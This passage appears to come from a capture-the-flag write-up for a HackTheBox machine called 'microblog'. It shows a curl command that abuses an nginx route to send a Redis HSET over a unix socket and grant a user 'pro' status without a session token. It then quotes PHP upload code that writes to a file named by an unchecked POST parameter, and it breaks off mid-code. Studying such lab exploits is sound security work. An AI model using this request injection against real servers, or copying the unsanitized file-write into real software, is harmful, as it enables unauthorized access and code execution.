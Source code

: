 In a simpler way, we can execute in directly in the console :

```shell
curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:john%20pro%20true%20/fakeuri"
```

Since we use nginX to access redis, this is not linked to the application, and we do not need any session token.

### upload

With this new option, we are able to send an image :

![Untitled](assets/pro_upload_image.png)

The application code to add an image :

```php
//add image
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
    $image = new Bulletproof\Image($_FILES);
    $image->setLocation(getcwd() . "/../uploads");
    $image->setSize(100, 3000000);
    $image->setMime(array('png'));

    if($image["image"]) {
        $upload = $image->upload();

        if($upload) {
            $upload_path = "/uploads/" . $upload->getName() . ".png";
            $html = "<div class = \"blog-image\"><img src = \"{$upload_path}\" /></div>";
            chdir(getcwd() . "/../content");
            $post_file = fopen("{$_POST['id']}", "w");
            fwrite($post_file, $html);
            fclose($post_file);
            $order_file = fopen("order.txt", "a");
            fwrite($order_file, $_POST['id'] . "\n");  
```